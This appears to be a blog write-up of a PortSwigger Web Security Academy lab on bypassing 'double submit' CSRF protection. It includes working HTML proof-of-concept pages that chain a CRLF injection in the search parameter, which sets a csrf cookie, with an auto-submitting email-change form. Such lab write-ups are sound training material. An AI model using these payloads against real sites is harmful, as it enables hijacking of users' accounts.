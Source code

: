 ```yaml
---
layout: post
title:  "CSRF where token is duplicated in cookie"
date:   2024-10-02 09:39:54 +0530
categories: [BSCP, CSRF]
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter` 

## Solution 

Once after login using the credentials `wiener:peter` provided in the lab objective and now I've updated the email.. Intercepted the request and looking into the request.. we have CSRF token in two places.. One in the header under cookies and another one in the POST body as a parameter 

![]({{ site.baseurl }}/assets/images/csrf-13.png) 

I've updated one of the csrf token kinda just changed the last value on `csrf` inside the `Cookie:` and as a response says that `CSRF token is invalid`

![]({{ site.baseurl }}/assets/images/CSRF-14.png)

Found that when we both values of the CSRF token are same and then request passes through 

![]({{ site.baseurl }}/assets/images/csrf-15.png) 

Let's generate the CSRF POC and keep that aside.. because we have a way to manipulate the body params `csrf` value.. But we need to find a way to inject the values of csrf inside the Cookie

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa900f504b8b225811be8b8001400c9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="same" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

We have identified a crlf vulnerability in the home page search functionality and may able to inject the custom values for `csrf` inside `Cookie`

![]({{ site.baseurl }}/assets/images/csrf-16.png) 

Let's make the search request as an `<img src>` and replace it with `<script>` in the previously generated POC 

```html
<img src="https://0a1400b804fc91fb805c6c99001600a3.web-security-academy.net/?search=nithisshtest%0d%0aSet-Cookie:%20csrf=same%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

Here is how the complete payload looks like 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a1400b804fc91fb805c6c99001600a3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="same" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a1400b804fc91fb805c6c99001600a3.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=same%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

This Should solve the lab but the portswigger didn't mark it as solved.. but after a decade, It marked as solved 

![]({{ site.baseurl }}/assets/images/csrf-17.png) 